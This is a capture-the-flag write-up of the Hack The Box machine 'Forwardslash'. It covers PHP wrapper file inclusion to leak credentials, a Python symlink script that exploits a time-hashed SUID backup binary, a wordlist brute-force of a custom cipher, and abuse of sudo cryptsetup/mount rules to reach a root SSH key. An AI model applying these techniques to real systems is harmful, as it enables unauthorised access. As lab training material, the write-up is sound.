 ﻿---
title: "HackTheBox - Forwardslash"
date: 2020-06-27 07:03:36 +0530
tags: [heap, binary exploitation, linux]
categories: boxes
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
excerpt: "Write-up of the box Forwardslash from Hack The Box"
---

Fowardslash was a nice hard box where we had to find a hidden backup domain to gain remote access on the machine. The root part included bruteforcing a cipher, which revealed the key to mount an encrypted partition that contained a root ssh private key. 

# NMAP scans

![b7301415-1c0d-48ed-935f-33a38696cb52.png](https://files.nuclino.com/files/bd99b3a0-788e-43b2-94f8-52b42aefaf4b/b7301415-1c0d-48ed-935f-33a38696cb52.png)

* Only port 80 open, must be interesting

# Basic enumeration

The default page of the index.php:

![616af91c-4c09-4d56-9c3c-54acd44cbf77.png](https://files.nuclino.com/files/9312fb05-e8ed-42ed-86e1-6af3b67392fe/616af91c-4c09-4d56-9c3c-54acd44cbf77.png)

Get get some hints that we might need to do an XXE or exploit an FTP server. 

Continuing to fuzz, we get `/note.txt`

![b7b80b02-6e84-480c-b27e-7d4f6c0921f1.png](https://files.nuclino.com/files/b4fcbd39-60dc-4e41-8f30-a89b628ca32d/b7b80b02-6e84-480c-b27e-7d4f6c0921f1.png)

* Probably the first user on the machine: chiv

Using the backup hint, we add **backup.forwardslash.htb** to the `/etc/hosts` to get that page or by bruteforcing possible VHOST names:

![b092ef37-508b-4815-8376-d7b4cf6bfcad.png](https://files.nuclino.com/files/c61716b3-9097-4202-9feb-a4768a7cf566/b092ef37-508b-4815-8376-d7b4cf6bfcad.png)

We can either create a user or an already existing user `pain:password` 

Bruteforcing the dirs we get the following pages:

```shell
DirBuster 1.0-RC1 - Report
Report produced on Mon Apr 06 17:37:08 CEST 2020
--------------------------------
http://backup.forwardslash.htb:80
--------------------------------
Dirs found with a 403 response:
/icons/
/dev/
/icons/small/
/server-status/
--------------------------------
Files found with a 302 responce:
/index.php
/welcome.php
/environment.php
/logout.php
/hof.php
--------------------------------
Files found with a 200 responce:
/login.php
/register.php
/api.php
/config.php
--------------------------------
Files found with a 403 responce:
/dev/index.php
```

Continuing to enumerate, I also found the profilepicture.php, which allows us to include an URL to change our profile picture.

![8c56bb66-16d0-49c4-86fe-b0966e6b700c.png](https://files.nuclino.com/files/c61ccb92-2a51-4bd5-be06-911a9bbf2355/8c56bb66-16d0-49c4-86fe-b0966e6b700c.png)

Since it is only HTML disabled, we can go ahead and enable it using the inspector HTML inspector in the browser to then intercept the request. Here we can see what it looks like. It looks like the author of the box thought of this exploit, so we get a sneaky little message that it won't work this way:

![c4721c46-0423-49c7-9093-33c931ce1847.png](https://files.nuclino.com/files/ba84a697-128a-4ca5-b251-47e44a6746ae/c4721c46-0423-49c7-9093-33c931ce1847.png)

At first I thought that we had to do some kind of XXE, as mentioned before, but it is way simpler to use PHP wrappers/filters to read the file. The [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion) repo has a great collection:

![638ffa93-d481-4d83-ad8a-3d484f7a0922.png](https://files.nuclino.com/files/a000439d-eb32-4a24-80f7-defe4fd477c6/638ffa93-d481-4d83-ad8a-3d484f7a0922.png)

This way we can read the source code of api.php, where we can find some creds:

![4b235659-62ff-47b4-9e2e-10f8d1e61761.png](https://files.nuclino.com/files/a232553f-980d-4fc6-9fc8-a968455d2782/4b235659-62ff-47b4-9e2e-10f8d1e61761.png)

`Chiv:N0bodyL1kesBack`/

# Getting user: pain

SSH into the system and after some enumeration a binary has been found. It is called backup and can be executed by us and has the SUID bit set, therefore allowing us to execute it as the owner - pain.

Here's what it does:

* It creates an MD5 Hash depending on the time
* The binary checks if a file has the same name as a hash at the created-time
* If correct, the contents of a file will be printed
* Creating a little python script, which looks like this, we can read the contents of `/var/backups/config.php.bak`, which contains the creds of the user pain

Using this little python script to read the contents:

```python
from datetime import datetime
import hashlib
import os
now = datetime.now()
current_time = now.strftime("%H:%M:%S")
hash = (hashlib.md5(current_time.encode()).hexdigest())
print(hash)
os.symlink("/var/backups/config.php.bak", hash)
os.system("/usr/bin/backup")
```

It must be executed in the home dir of chiv

Creds of pain:

`pain:db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704`

# Getting root

Now we can SSH as pain and find a the **encryptinator **that was made by our friend chiv:

Source code:

```python
def encrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in key:
        for i in range(len(msg)):
            if i == 0:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[-1])
            else:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[i-1])

            while tmp > 255:
                tmp -= 256
            msg[i] = chr(tmp)
    return ''.join(msg)

def decrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in reversed(key):
        for i in reversed(range(len(msg))):
            if i == 0:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
            else:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
            while tmp < 0:
                tmp += 256
            msg[i] = chr(tmp)
    return ''.join(msg)


print encrypt('REDACTED', 'REDACTED')
print decrypt('REDACTED', encrypt('REDACTED', 'REDACTED'))
```

As well as a Ciphertext:

```
,L
>2Xբ
|?I)E-˒\/;y[w#M2ʐY@'缘泣,P@5f$\*rwF3gX}i6~KY'%e>xo+g/K>^Nke
```

I tried to understand the cipher and how it works out, but in the end i was curios if it was bruteforceable and voilà it worked:

```
def decrypt(key, msg):
    file = open("/usr/share/wordlists/rockyou.txt")    
    for line in file:
        line = list(line)
        with io.open('ciphertext', 'rb') as f:
            msg = f.read()
            msg = list(msg)
            for i in range(len(msg)):
                msg[i] = chr(msg[i])
            for char_key in reversed(line):
                for i in reversed(range(len(msg))):
                    msg[i] = chr((ord(msg[i]) - (ord(char_key)+ord(msg[i-1])))%256)
        print(''.join(msg) + '\n')

decrypt("REDACTED", "asd")
```

Executing it gives the following password:

`python3 file.py | strings -n 25`

The found key was: `thismypassword`

Now we can decrypt the cipher to receive some strange password:

`cB!6%sdH8Lj^@Y\*$C2cf`

Now that we did that, we remember that there was a file in `/var/backups/recovery`, a LUKS encrypted file that contains something that we want. 

![52f919a6-7a02-44b0-b9c1-a20eeaec1c9a.png](https://files.nuclino.com/files/e12a8779-f0d0-4724-8ba3-0e35633f3932/52f919a6-7a02-44b0-b9c1-a20eeaec1c9a.png)

Checking the SUDO permissions, we can do the following:

```
User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```

Now that means that we can move to `/dev/mapper/` and create a backup file using the image:

```
cd /dev/mapper/
sudo /sbin/cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backup
mkdir /tmp/mnt
cd /tmp
sudo /bin/mount /dev/mapper/backup ./mnt/
```

When looking into our mount file, we can now see that we have a private key - the only user that is left is root, so we know have successfully rooted the forwardslash!

root-private key:

[id_rsa](https://files.nuclino.com/files/4a493eb9-86e7-4891-9399-2e41ab32432f/id_rsa)
